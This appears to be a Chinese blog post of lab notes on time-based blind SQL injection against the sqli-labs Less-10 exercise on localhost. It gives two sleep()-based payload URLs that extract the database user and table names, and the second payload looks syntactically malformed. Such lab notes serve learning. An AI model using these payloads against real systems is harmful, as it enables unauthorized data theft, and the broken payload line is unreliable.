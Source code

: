 ```yaml
---
layout: post
title: 1.3.2-SQL注入-SQL盲注-时间盲注
categories:
  - - 安全
    - web安全
    - sql注入
tags: 
  - sql注入 
  - sql盲注
  - 时间盲注
abbrlink: 4135600167
date: 2018-06-23 00:00:00
description: sql注入、时间盲注
---
```


## 时间盲注

### 时间盲注原理
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/06/01.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/06/02.png)



### 时间盲注方法

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/06/03.png)
	
	http://localhost:90/Less-10/?id=1" and if(left(user(),1)='a',0,sleep(3))--+

	http://localhost:90/Less-10/?id=1" and if(left(select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='r',0,sleep(3))--+

时间注入脚本  

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/06/04.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/06/05.png)

--- 
## links
[时间盲注](https://mp.weixin.qq.com/s?__biz=MzIzNzExNzI5Ng==&mid=2648732982&idx=1&sn=159f2b13d7737232577ae11ccecb33d2&chksm=f0d95f29c7aed63f2e0aea215f57672f7282de08c47a1033e6b2cfe1fee5fb788b4c8de405c0&mpshare=1&scene=23&srcid=0702v4QOmQfViIjUPqq98LAc)
